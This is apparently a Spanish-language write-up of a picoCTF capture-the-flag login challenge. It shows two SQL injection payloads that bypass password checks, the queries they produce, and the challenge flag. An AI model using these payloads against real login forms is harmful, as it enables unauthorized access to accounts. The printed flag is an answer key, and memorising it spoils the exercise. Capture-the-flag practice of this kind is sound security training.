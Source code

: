 ### Scavenger Hunt
### Description 

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login
### Hint

-  There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.

## Solución  1
```
usamos el usuario `admin'--_` para comentar el resto de la consulta, ignorando la verificación de contraseña.
	username: admin'--_
password: hola
SQL query: SELECT * FROM users WHERE name='admin'--_' AND password='hola'

# Logged in!


picoCTF{s0m3_SQL_f8adf3fb}
```


## Solución  2

```
usamos de ejemplo `juan' or 1=1;` para hacer que la condición **siempre sea verdadera**, logrando acceso sin importar el usuario o contraseña.

username: juan' or 1=1;
password: hola
SQL query: SELECT * FROM users WHERE name='juan' or 1=1;' AND password='hola'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```